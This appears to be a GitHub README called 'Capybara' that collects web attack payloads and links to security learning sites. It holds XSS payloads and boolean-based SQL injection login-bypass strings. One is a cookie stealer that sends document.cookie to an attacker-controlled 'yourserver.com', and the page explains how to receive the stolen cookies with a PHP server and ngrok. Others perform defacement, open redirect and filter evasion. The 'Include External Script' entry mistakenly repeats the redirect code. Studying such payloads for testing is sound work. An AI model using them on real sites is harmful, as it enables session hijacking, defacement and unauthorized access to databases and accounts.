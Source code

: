 # Capybara
The goal of this page is just to get attention.<br>
Why do i have to seriously write online some payloads when there are already [thousands of them](https://github.com/swisskyrepo/PayloadsAllTheThings) online for any type of vulnerability?
Anyway, i suggest these websites to study or review vulns!<br>
https://www.invicti.com/learn/<br>
https://www.hacksplaining.com/lessons<br>
https://portswigger.net/web-security
# Payloads

1) Generic XSS payloads
2) Various boolean based SQL injection payloads

## Generic xss payloads.

#### Cookie stealer
```js
<script>document.location=“http://yourserver.com/?c="+document.cookie;</script>
```
For example, to start a little server with php and ngrok i do:
`php -S localhost:<port>`
`ngrok http <port>`

#### Redirect
Achieve Open redirect
```js
<script>window.location="https://example.com"</script>
```

#### Include External Script
```js
<script>window.location="https://example.com"</script>
```

#### Overwrite body
Useful if a deface is needed
```js
<script>document.getElementsByTagName('body')[0].innerHTML="jamal";</script>
<script>document.body.innerHTML = 'jamal';</script>
```

### Other
Just search on google, you will find a lot of ways to escape filters
```js
<script>alert("hello")</script>
document.write(location.search("><svg onload=alert(1)>"))
<svg/onload=alert("hi")>
<img src=x onerror="alert('hello');">
<iframe src=”javascript:alert(1)”></iframe>
<var onmouseover="prompt(1)">move the cursor here</var>
<script>alert(window.origin)</script>
<script>alert(document.cookie)</script>
<script>confirm(document.domain)</script>
```

## Various boolean based SQL injection payloads
Taken from this website, "[**Sql injection cheat sheet by invicti**](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)" (a read is strongly suggested)
```sql
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
```
